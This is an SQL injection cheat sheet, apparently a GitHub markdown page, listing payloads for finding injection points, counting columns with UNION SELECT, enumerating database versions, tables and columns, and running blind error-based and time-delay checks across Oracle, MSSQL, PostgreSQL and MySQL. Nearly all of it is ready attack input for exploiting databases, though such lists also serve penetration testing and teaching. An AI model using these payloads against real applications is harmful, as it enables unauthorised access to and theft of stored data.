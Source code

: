 # SQLi

## Check for SQLi
**Determine entry point:**
```
'
"
`
')
")
`)
'))
"))
`))
```
**Add comments after quote injection:**
```sql
MySQL
-- comment [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
PostgreSQL
--comment
/*comment*/
MSQL
--comment
/*comment*/
Oracle
--comment
SQLite
--comment
/*comment*/
HQL
HQL does not support comments
```

## Union Based SQL Injection
If you can see the output of your SQL query then this is the best way to exploit it

**Determine number of columns:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Determine number of columns for Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
**Get database versions**:
```sql
--MySQL, Microsoft (MSQL)
SELECT @@version
--PostgreSQL
SELECT version()
--Oracle
SELECT banner FROM v$version
SELECT version FROM v$instance
```
### Get all tables
**Oracle:**
```sql
SELECT * FROM all_tables
```
**MSQL, PostgreSQL, MySQL:**
```sql
SELECT * FROM information_schema.tables
```
### Get all columns
**Oracle:**
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
```
**MSQL, PostgreSQL, MySQL:**
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

## Blind SQLi
If you cant see the output of your query then try these （￣︶￣）↗　
*These are not copy-pastable , you'll need to modify them to fit your already-working injection*

### Check your query can trigger an error response from the application
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
```
**MSQL:**
```sql
SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END
```
**PostgreSQL:**
```sql
1 = (SELECT CASE WHEN (1=2) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
```
**MySQL:**
```sql
SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
```

### Check your query can cause a time delay in the application
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
```
**MSQL:**
```sql
IF (1=1) WAITFOR DELAY '0:0:10' 
```
**PostgreSQL:**
```sql
SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
**MySQL:**
```sql
SELECT IF(1=1,SLEEP(10),'a')
```